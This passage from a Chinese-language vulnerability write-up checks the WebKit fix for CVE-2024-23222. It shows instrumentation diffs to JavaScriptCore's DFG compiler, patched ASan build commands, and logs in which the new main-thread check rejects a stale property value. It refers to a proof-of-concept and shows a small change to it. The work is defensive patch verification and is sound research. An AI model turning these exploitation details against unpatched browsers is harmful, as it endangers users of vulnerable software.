
JSValue value = object->getDirect(offset);
if (value != expectedValue)
    return false;
```

任一条件失败，DFG plan 都不能安装。

`Plan::isStillValidOnMainThread()` 修复后同时验证 watchpoints 和 objectProperties：

```text
watchpoints.areStillValidOnMainThread()
objectProperties.areStillValidOnMainThread()
```

下图对比了补丁前后的执行流程。左侧是修复前：DFG 编译线程读到 `JSValue result` 后直接把它作为 constant property load 的结果继续依赖。右侧是修复后：读取结果在需要时进入 `DesiredObjectProperties`，如果 JS 主线程最终校验发现当前属性值或结构不再匹配，对应 DFG plan 不会安装。



这张图证明：补丁不是阻止 DFG 编译线程读取属性，而是禁止失效属性假设进入最终可用的优化代码路径。


## 修复后校验路径核对

这一节只看补丁后的执行路径，不再重复修复前的 ASan 崩溃。前面的复现已经证明 stale value 路径可达；这里要确认的是，在修复提交 `64714692967ad278155fcae66c5cb0f853b3bf34` 之后，`Graph::tryGetConstantProperty()` 读到的属性值会走哪条保护路径，以及 `Plan::isStillValidOnMainThread()` 能不能在最终提交前拦住失效假设。

补丁后的 `tryGetConstantProperty()` 不是无条件把每一次 constant property load 都交给 `DesiredObjectProperties`，而是存在两条保护路径：

```text
1. all-watched path
   如果 structureSet 中的结构都可以被 DFG watch，
   编译器继续依赖 watchpoint 保护，不记录 DesiredObjectProperties。

2. objectProperties path
   如果不能完全依赖 watched structures，且 structureSet.size() == 1，
   编译器会记录 (object, offset, result, structure)，
   并在 Plan::isStillValidOnMainThread() 中重新验证。
```

所以这里分两步看：先让原始 PoC 自然运行，确认它落在哪条路径；再用研究插桩单独覆盖 objectProperties path，看新增的主线程最终校验是否真的会拦截失效值。

### 验证准备

先切换到包含修复的提交：

```bash
git checkout 64714692967ad278155fcae66c5cb0f853b3bf34
```

随后使用独立输出目录构建 patched JSC，避免和修复前构建产物混用：

```bash
WEBKIT_OUTPUTDIR=$PWD/WebKitBuild-CVE23222-patched \
CFLAGS="-fsanitize=address -fno-omit-frame-pointer" \
CXXFLAGS="-fsanitize=address -fno-omit-frame-pointer" \
LDFLAGS="-fsanitize=address" \
Tools/Scripts/build-webkit \
  --jsc-only \
  --debug \
  --cmakeargs="-DDEVELOPER_MODE_FATAL_WARNINGS=OFF -DCMAKE_EXPORT_COMPILE_COMMANDS=1"
```

为了看清补丁后的分支选择，我在 patched 版本上加了一组轻量研究插桩：一处记录 `tryGetConstantProperty()` 读到的 `result`，一处打印 `DesiredObjectProperties` 校验时的 expected/current value，最后一处打印 `Plan::isStillValidOnMainThread()` 的最终结果。插桩只负责暴露路径和中间值，不改变 `DesiredObjectProperties::areStillValidOnMainThread()` 与 `Plan::isStillValidOnMainThread()` 的判断条件。

第一处放在 `DFGGraph.cpp`。这里离漏洞窗口最近：`result` 已经从对象属性中读出，但后续还没有决定走 watched-structures path 还是 objectProperties path。`JSC_TGCP_SLEEP_USEC` 用来放大这个窗口；`JSC_TGCP_FORCE_DOP` 只在验证 objectProperties path 时使用，让 `allAreWatched=true` 的样本继续走到 `m_plan.objectProperties().addLazily(...)`。

```diff
diff --git a/Source/JavaScriptCore/dfg/DFGGraph.cpp b/Source/JavaScriptCore/dfg/DFGGraph.cpp
@@
+#include <cstdlib>
+#include <unistd.h>
+#include <wtf/DataLog.h>
+#include <wtf/RawPointer.h>
@@
     if (!result)
         return JSValue();
+
+    if (result.isCell())
+        dataLogLn("[tgcp] HIT result=", RawPointer(result.asCell()), " isCell=1");
+    else
+        dataLogLn("[tgcp] HIT result=<non-cell>");
+
+    if (const char* sleepUSecString = getenv("JSC_TGCP_SLEEP_USEC")) {
+        unsigned sleepUSec = static_cast<unsigned>(atoi(sleepUSecString));
+        dataLogLn("[tgcp] sleep usec=", sleepUSec);
+        usleep(sleepUSec);
+        if (result.isCell())
+            dataLogLn("[tgcp] wake result=", RawPointer(result.asCell()));
+    }
@@
-    if (allAreWatched)
+    bool forceDOP = getenv("JSC_TGCP_FORCE_DOP");
+    dataLogLn("[tgcp] allAreWatched=", allAreWatched,
+        " structureSet.size=", structureSet.size(), " forceDOP=", forceDOP);
+    if (allAreWatched && !forceDOP) {
+        dataLogLn("[tgcp] return result via watched-structures path; skip DesiredObjectProperties");
         return result;
+    }
+    if (allAreWatched && forceDOP)
+        dataLogLn("[tgcp] force DesiredObjectProperties path for validation");
@@
     m_plan.weakReferences().addLazily(object);
     m_plan.weakReferences().addLazily(result);
-    if (!m_plan.objectProperties().addLazily(object, offset, result, set.onlyStructure()))
+    dataLogLn("[tgcp] record DesiredObjectProperties");
+    dataLogLn("[tgcp] object=", RawPointer(object), " offset=", offset);
+    if (result.isCell())
+        dataLogLn("[tgcp] expectedValueCell=", RawPointer(result.asCell()));
+    dataLogLn("[tgcp] expectedStructure=", RawPointer(set.onlyStructure()));
+    if (!m_plan.objectProperties().addLazily(object, offset, result, set.onlyStructure()))
         return JSValue();
```

第二处放在 `DFGDesiredObjectProperties.cpp`。这里要看的不是“有没有调用函数”，而是主线程最终校验时对象属性是否还等于编译线程看到的值，所以日志里需要同时保留 `expectedValue`、`currentValue`、`expectedStructure` 和 `currentStructure`。

```diff
diff --git a/Source/JavaScriptCore/dfg/DFGDesiredObjectProperties.cpp b/Source/JavaScriptCore/dfg/DFGDesiredObjectProperties.cpp
@@
+#include <wtf/DataLog.h>
+#include <wtf/RawPointer.h>
@@
 bool DesiredObjectProperties::addLazily(JSObject* object, PropertyOffset offset, JSValue value, Structure* structure)
 {
+    dataLogLn("[dop] addLazily object=", RawPointer(object), " offset=", offset);
+    if (value.isCell())
+        dataLogLn("[dop] expectedValueCell=", RawPointer(value.asCell()));
+    dataLogLn("[dop] expectedStructure=", RawPointer(structure));
+
     auto result = m_properties.add(std::tuple { object, offset }, std::tuple { value, structure });
-    if (result.isNewEntry)
+    if (result.isNewEntry) {
+        dataLogLn("[dop] addLazily result=new-entry");
         return true;
+    }
@@
 bool DesiredObjectProperties::areStillValidOnMainThread(VM&)
 {
+    dataLogLn("[dop] areStillValidOnMainThread begin size=", m_properties.size());
+
     for (auto& [key, values] : m_properties) {
@@
        Structure* structure = object->structure();
-        if (UNLIKELY(structure != expectedStructure))
+        dataLogLn("[dop] expectedStructure=", RawPointer(expectedStructure));
+        dataLogLn("[dop] currentStructure=", RawPointer(structure));
+        if (UNLIKELY(structure != expectedStructure)) {
+            dataLogLn("[dop] result=false reason=structure-mismatch");
             return false;
+        }
@@
+        if (UNLIKELY(!structure->isValidOffset(offset))) {
+            dataLogLn("[dop] result=false reason=invalid-offset");
+            return false;
+        }
+
         JSValue value = object->getDirect(offset);
-        if (UNLIKELY(value != expectedValue))
+        if (expectedValue.isCell())
+            dataLogLn("[dop] expectedValueCell=", RawPointer(expectedValue.asCell()));
+        if (value.isInt32())
+            dataLogLn("[dop] currentValueInt32=", value.asInt32());
+        if (UNLIKELY(value != expectedValue)) {
+            dataLogLn("[dop] result=false reason=value-mismatch");
             return false;
+        }
     }

+    dataLogLn("[dop] areStillValidOnMainThread result=true");
     return true;
 }
```

第三处放在 `DFGPlan.cpp`。`Plan::isStillValidOnMainThread()` 是最终提交前的入口，把 watchpoints 和 objectProperties 的结果拆开打印，才能确认 plan 是被哪一类假设拦下来的。

```diff
diff --git a/Source/JavaScriptCore/dfg/DFGPlan.cpp b/Source/JavaScriptCore/dfg/DFGPlan.cpp
@@
+#include <wtf/DataLog.h>
@@
 bool Plan::isStillValidOnMainThread()
 {
-    if (!m_watchpoints.areStillValidOnMainThread(*m_vm, m_identifiers))
+    dataLogLn("[plan] isStillValidOnMainThread begin");
+
+    bool watchpointsValid = m_watchpoints.areStillValidOnMainThread(*m_vm, m_identifiers);
+    dataLogLn("[plan] watchpoints.areStillValidOnMainThread() => ", watchpointsValid);
+    if (!watchpointsValid)
         return false;
-    if (!m_objectProperties.areStillValidOnMainThread(*m_vm))
+
+    bool objectPropertiesValid = m_objectProperties.areStillValidOnMainThread(*m_vm);
+    dataLogLn("[plan] objectProperties.areStillValidOnMainThread() => ", objectPropertiesValid);
+    if (!objectPropertiesValid) {
+        dataLogLn("[plan] Plan::isStillValidOnMainThread() => false reason=object-properties");
         return false;
+    }
+
+    dataLogLn("[plan] Plan::isStillValidOnMainThread() => true");
     return true;
 }
```

有了这三处日志，后面的验证就能串起来：先确认 DFG 编译线程读到了旧值，再确认这个旧值是否被记录成 object property 假设，最后看主线程最终校验是否阻止 DFG plan 安装。

### 自然路径：all-watched path

自然路径沿用原始 PoC 和同一组 JIT / ASan 参数，只过滤与补丁路径相关的日志：

```bash
ASAN_OPTIONS='detect_stack_use_after_return=1:abort_on_error=1:quarantine_size_mb=256:detect_leaks=0' \
WebKitBuild-CVE23222-patched/bin/jsc \
  --useConcurrentJIT=true \
  --thresholdForOptimizeAfterWarmUp=20 \
  --thresholdForJITAfterWarmUp=5 \
  --thresholdForFTLOptimizeAfterWarmUp=1000000 \
  poc.js 2>&1 | grep -E "\[tgcp\]|\[dop\]|\[plan\]|\[mini\]|AddressSanitizer"
```

下图证明：自然运行时，当前 PoC 命中了 `allAreWatched=true` 的 watched-structures path，`DesiredObjectProperties` 的 size 为 0，后续 ASan 崩溃仍然落在 GC conservative root scanning 观测点。



本次自然运行得到的关键日志如下：

```text
[tgcp] HIT result=0x52d0000e8130 isCell=1
[tgcp] allAreWatched=true structureSet.size=1 forcedDOP=false
[tgcp] return result via watched-structures path; skip DesiredObjectProperties
[plan] isStillValidOnMainThread begin
[plan] watchpoints.areStillValidOnMainThread() => true
[dop] areStillValidOnMainThread begin size=0
[dop] areStillValidOnMainThread result=true
[plan] objectProperties.areStillValidOnMainThread() => true
[plan] Plan::isStillValidOnMainThread() => true
[mini] trigger DFG compile
[mini] release state.val and force GC
AddressSanitizer:DEADLYSIGNAL
SUMMARY: AddressSanitizer: SEGV ... ConservativeRoots.cpp:101
```

这组日志说明，修复后的 `tryGetConstantProperty()` 仍会在 DFG 编译线程读取属性值，`result=0x52d0000e8130 isCell=1` 表明读到的是 cell-valued `JSValue`。但当前 PoC 命中的是 `allAreWatched=true` 分支，所以 plan 走 watched-structures path，并跳过 `DesiredObjectProperties`。

`[dop] areStillValidOnMainThread begin size=0` 是关键佐证：本次没有记录 object property 假设，`objectProperties.areStillValidOnMainThread() => true` 只是空表通过，不代表已经比较过 `expectedValue/currentValue`。

自然路径末尾仍可能在 `fullGC()` 触发的 conservative root scanning 中被 ASan 捕获崩溃。这个现象不应解释为补丁失效；它只能说明原始 PoC 仍能制造 stale-cell 观测点。补丁路径验证要看的是 `tryGetConstantProperty()` 选择了哪条保护路径，以及 `Plan::isStillValidOnMainThread()` 是否在最终提交前拦截了失效假设。

### PoC 调整：覆盖 objectProperties path

为了单独验证 `DesiredObjectProperties` 分支，本文使用研究插桩增加两个环境变量：

```bash
JSC_TGCP_FORCE_DOP=1
JSC_TGCP_SLEEP_USEC=<usec>
```

`JSC_TGCP_FORCE_DOP=1` 只用于验证环境：它让 `allAreWatched=true` 的样本跳过 watched-structures early return，继续执行 `m_plan.objectProperties().addLazily(...)`。`JSC_TGCP_SLEEP_USEC` 则在 DFG 编译线程读出 `result` 后暂停一段时间，让 JS 主线程有机会执行 `state.val = 0`。

这两个开关不改变 `DesiredObjectProperties::areStillValidOnMainThread()` 和 `Plan::isStillValidOnMainThread()` 的判断逻辑，只改变验证样本覆盖到的分支。

验证 PoC 也需要稍微收一下：保留 `state.val = 0` 和 `probe = null`，但去掉主动 `fullGC()`，避免在最终 plan 校验前先被 conservative root scanning 终止。最后加一段自旋，让主线程保持存活，等后台 DFG plan 走到最终校验位置。

关键修改可以写成：

```diff
 print('[mini] release state.val');
 state.val = 0;
 probe = null;

-for (let i = 0; i < 5; i++) {
-    gcNow();
-    pressure();
-}
+for (let i = 0; i < 250000000; i++) {
+}

 print('[mini] done');
```

### 验证路径：DesiredObjectProperties 拦截

使用调整后的 `poc_patched_validation.js` 运行 patched JSC：

```bash
JSC_TGCP_FORCE_DOP=1 \
JSC_TGCP_SLEEP_USEC=1000000 \
ASAN_OPTIONS='detect_stack_use_after_return=1:abort_on_error=1:quarantine_size_mb=256:detect_leaks=0' \
/home/sxy/WebKit/WebKitBuild-CVE23222-patched/bin/jsc \
  --useConcurrentJIT=true \
  --thresholdForOptimizeAfterWarmUp=20 \
  --thresholdForJITAfterWarmUp=5 \
  --thresholdForFTLOptimizeAfterWarmUp=1000000 \
  /home/sxy/WebKit/poc_patched_validation.js 2>&1 | grep -E "\[tgcp\]|\[dop\]|\[plan\]|\[mini\]|AddressSanitizer"
```

下图证明：强制覆盖 objectProperties path 后，`expectedValueCell` 仍是 DFG 编译线程读到的旧 `JSCell`，而主线程最终校验重新读取到的 `currentValue` 已经是 `Int32 0`，因此校验以 `value-mismatch` 失败，DFG plan 被判定为 invalidated。



本次验证路径的关键日志如下：

```text
[tgcp] HIT result=0x52d0000e8130 isCell=1
[tgcp] sleep usec=1000000
[mini] trigger DFG compile
[mini] release state.val
[tgcp] wake result=0x52d0000e8130
[tgcp] allAreWatched=true structureSet.size=1 forcedDOP=true
[tgcp] force DesiredObjectProperties path for validation
[tgcp] record DesiredObjectProperties
[tgcp] object=0x52d0000e0140 offset=0
[tgcp] expectedValueCell=0x52d0000e8130
[tgcp] expectedStructure=0x7fc30000a160
[dop] addLazily object=0x52d0000e0140 offset=0
[dop] expectedValueCell=0x52d0000e8130
[dop] expectedStructure=0x7fc30000a160
[dop] addLazily result=new-entry
[tgcp] objectProperties.addLazily => true
[plan] isStillValidOnMainThread begin
[plan] watchpoints.areStillValidOnMainThread() => true
[dop] areStillValidOnMainThread begin size=1
[dop] check object=0x52d0000e0140 offset=0
[dop] expectedStructure=0x7fc30000a160
[dop] currentStructure=0x7fc30000a160
[dop] expectedValueCell=0x52d0000e8130
[dop] currentValueInt32=0
[dop] result=false reason=value-mismatch
[plan] objectProperties.areStillValidOnMainThread() => false
[plan] Plan::isStillValidOnMainThread() => false reason=object-properties
```

日志中的 `[tgcp] record DesiredObjectProperties` 和 `[dop] addLazily result=new-entry` 说明，DFG 编译线程读到的 `result` 已经被记录为属性假设。`expectedValueCell=0x52d0000e8130` 是编译线程读到的旧 `JSCell`，`currentValueInt32=0` 则是 JS 主线程执行 `state.val = 0` 后重新读取到的当前属性值。

最后，`DesiredObjectProperties::areStillValidOnMainThread()` 因 `value-mismatch` 返回 false，`Plan::isStillValidOnMainThread()` 随后因 `object-properties` 失败返回 false。这个结果说明，补丁新增的 objectProperties 校验确实能在 DFG plan 最终提交前识别失效属性假设，阻止依赖旧 `JSCell` 的优化结果继续安装。


## 参考资料

以下资料用于漏洞公告、补丁和公开 PoC 对照。

1. [NVD: CVE-2024-23222](https://nvd.nist.gov/vuln/detail/CVE-2024-23222)
2. [Ubuntu Security: CVE-2024-23222](https://ubuntu.com/security/CVE-2024-23222)
3. [WebKit commit 64714692967a: DFG constant property load should check the validity at the main thread](https://github.com/WebKit/WebKit/commit/64714692967ad278155fcae66c5cb0f853b3bf34)
4. [FuzzySecurity: Cassowary-CVE-2024-23222-x86_64](https://github.com/FuzzySecurity/Cassowary-CVE-2024-23222-x86_64)
5. [FuzzySecurity: toctou_clean_asan_v2.js](https://github.com/FuzzySecurity/Cassowary-CVE-2024-23222-x86_64/blob/main/toctou_clean_asan_v2.js)
6. [CERT-EU Security Advisory 2024-013](https://cert.europa.eu/publications/security-advisories/2024-013/)
7. [Apple Security Releases](https://support.apple.com/en-us/100100)
8. [Apple: About the security content of Safari 17.3](https://support.apple.com/en-us/120339)
9. [WebKit Bugzilla: Bug 267134](https://bugs.webkit.org/show_bug.cgi?id=267134)
